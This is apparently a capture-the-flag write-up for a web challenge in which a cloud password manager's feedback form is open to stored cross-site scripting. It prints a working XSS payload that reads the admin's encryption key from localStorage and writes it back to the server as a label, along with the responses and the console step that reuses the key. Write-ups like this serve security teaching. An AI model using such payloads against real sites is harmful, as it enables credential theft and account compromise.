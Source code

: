 # CBPM (web 300)

The participants were given an online cloud based password manager which had several options such as password change, feedback and etc. After spending some time on the task, we realized the workflow. The important consequences:
+ Login can be done by any username.
+ Admin user has a password labeled "flag"
+ In order to reveal the stored passwords, a correct password of the user is required
![](2.png)
+ Encryption/Decryption KEY is generated by user’s password.
+ KEY is saved on browser as it’s written on the site “Your decrypted master encryption key (KEY) is available in your browser and its encrypted version is stored on the server”
+ The exact location of `KEY` is in `localStorage` in browser 
![](3.png)
+ In order to decrypt flag, admin’s `password` or `KEY` is required.
+ The “feedback page” is prone to Cross Site Scripting without any protection or filtering.

**Attack scenario**: sending malicious payload to the admin users through feedback option, forcing admin to reveal his key.
In term of exploitation, there was a problem indicated in question: By the way, admin protects its machine with a strong and restrictive firewall...
Firewall means that admin couldn’t send request to internet. So our solution was to force admin to make a new label name with his local KEY. The payload used:
```
<script>
var b = new XMLHttpRequest();
b.open("POST", "/put.php", true);
b.send('{"id":"eyJ0ZWFtaWQiOiIxNDgifS4xY0lFWFguWDN0TXBxcGNuZlZFcDJ2UmZmUVBFdU1LbWVr","prelabel":"","newlabel":"'+localStorage.KEY+'","encpass":"a","iv":"a"}');
</script>
```
Following URL held the labels of a user.
```
http://ctf.sharif.edu:8081/list.php?id=eyJ0ZWFtaWQiOiIxNDgifS4xY0laUDcuNEtIbFcwaGpoRGc5dTlJcVIwQjJjMzN2WW5R
```
Admin’s labels before sending malicious payload:
```
{"meta":{"ok":true,"code":0,"messages":[]},"payload":{"labels":["flag"]}}
```
Afterwards:
```
{"meta":{"ok":true,"code":0,"messages":[]},"payload":{"labels":["bGFDMGZYWnZORG9hc21vM0hvZHNkUjE2YjJGeU1yMUM=","flag"]}}
```
So the KEY was grabbed. In the console of browser:
```
localStorage.setItem('KEY', 'bGFDMGZYWnZORG9hc21vM0hvZHNkUjE2YjJGeU1yMUM=')
```
And the flag was revealed: ![](1.png)

https://twitter.com/yshahinzadeh